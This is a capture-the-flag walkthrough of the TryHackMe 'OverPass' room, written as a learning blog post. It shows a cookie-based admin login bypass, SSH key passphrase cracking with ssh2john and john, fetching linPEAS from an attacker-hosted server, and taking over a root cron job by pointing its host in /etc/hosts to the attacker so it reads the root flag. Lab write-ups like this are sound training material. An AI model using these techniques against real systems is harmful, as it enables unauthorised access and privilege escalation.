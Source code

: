 ```yaml
---
layout: post
title: "OverPass"
categories: ["Hands-on", "TryHackMe"]
tags: "Manipulating Cookie"
---
```


# OverPass
*What happens when some broke CompSci students make a password manager?*

tool used: **Nmap**, **Gobuster**, **Burp**, **ssh2John**, **john**, **linPEAS**

After running Nmap scan I opened the browser searching the machine's IP address. This lands me up to a homepage website and found two directory: **About me** and **download** page. I checked the source of the homepage but i found nothing interesting.

### Gobuster

Since nothing really stuck out i decided to use gobuster to check if there are other directories. I used common wordlist from dirb as the wordlist. After running gobuster i find the **/admin** directory, it was an admin login page i tried the default admin username and password but it did not work


```bash
#Gobuster Command:

gobuster dir -u <url> -w <wordlist>

```

### Burp Intruder
I will be attempting to use Burp intruder to automate the brute forcing of the admin login. I have never used Burp Intruder so this will be a new experience for me.

Reading through the login.js i see that it reads the status of the cookie. If the cookie shows *incorrect credentials* it wont login but if the cookie is set to be Session Token it will allow me to login. Meaning that Bruteforcing might not be needed to bypass the login. Because of the *IF statement* if i changed the cookie to anything but 'incorrect credentials' i will be able to bypass the login.

![Login JaveScript](/images/loginOverpass.png)

 I went back to the browser opened the inspect so i can use the console there to set the cookie as 'AtomicScript' and After refreshing the page i get a private key that i believe needs to be decrypted.

 ```js
 //javascript setting cookie:

 Cookies.set("SessionToken",'AtomicScript')

 ```

### John

After refreshing the page I landed into a page that had a private RSA key of someone named James. In order for me to crack the private key I need to do the following:
1. use ssh2john to get the hash of the private key
2. use John to crack the hash with a rockyou wordlist  

I copied the Private RSA key into a file in my directory so i can use ssh2john with the following command:
'''

'''

```bash
# Used ssh2John to get the hash

python ssh2john.py id_rsa > id_rsa.hash

```

```bash
# Used John to get the password from the hash

sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt

```
>[Using JOHN & SSH2JOHN to crack a id_rsa private key](https://m0053sec.wordpress.com/2020/02/08/using-john-ssh2john-to-crack-a-id_rsa-private-key/)


### SSH
with that I found the password! I went back to the admin page and tried it with the username James but it say incorrect credential. I was hoping it would work. I used the below command to ssh with the id_rsa I found and passed the password as the phrase.

```bash
# SSH as james

ssh -i id_rsa james@[ip-address]

```

## Privilege escalation
Now that I logged in as a normal I need to escalate my privilege to fully complete the challenge. I found two files one containing the first key and the second contains a to do list, it mentions that a password is in the password manager. I dont have access to tryhackme home directory sadly.

### [LinPeas](https://blog.cyberethical.me/linpeas)

linPEAS performs Privilege escalation in the victim machine, and I wanted to try it to escalate my Privilege and learn on how the script work.

1. Downloaded the script file in the directory I was working on
2. Used python to host a web server
3. Used the Terminal with the remote connection to the machine to download the script in the **TMP** Directory. Any directory wont work it will show as bad permission.
4. Made sure that the script has the permission to execute and ran it.



#### Downloading the script file only

```bash
# Downloading the linpeas script file

wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -O linpeas.sh

```

#### Hosting with python

```bash
# Hosting the http server using python3

python3 -m http.server

```


#### downloading the script.
```bash
# Downloading the linpeas script from my hosted server

wget http://[myip]:[port]/linpeas.sh

```

I used a [guide](https://0xnirvana.medium.com/tryhackme-overpass-90abe32320a1) to understand what is needed to look for and what is needed done to gain access to the root or to find the flag.

#### CronTab

The trick was in the cron tab. The Crontab curls the buildscript.sh from the overpass.thm and sends the result to the bash as the root. From my understanding if I got access to editing the buildscript and the crontab runs it as root I would technically have access to anything as root.

I used the command cat /etc/hosts to find out about the overpass.thm. It was there with the local host now if i modified the ip address associated with the overpass.thm and changed it to be my own ip address, then the machine would think Im overpass.thm.

```bash
# Find out who is overpass.thm

cat /etc/hosts

```

The only problem now is that it would be looking for the buildscript.sh in my own machine and it wont find it. I created the script with the command *cat /root/root.txt > /tmp/flag*. Now i went back to the ssh connection and created the flag file since that does not exists. I went back and hosted the http server in the parent directory of the download/src and waited for the cron to do its job. After getting the *200* status I checked the flag file and it worked!
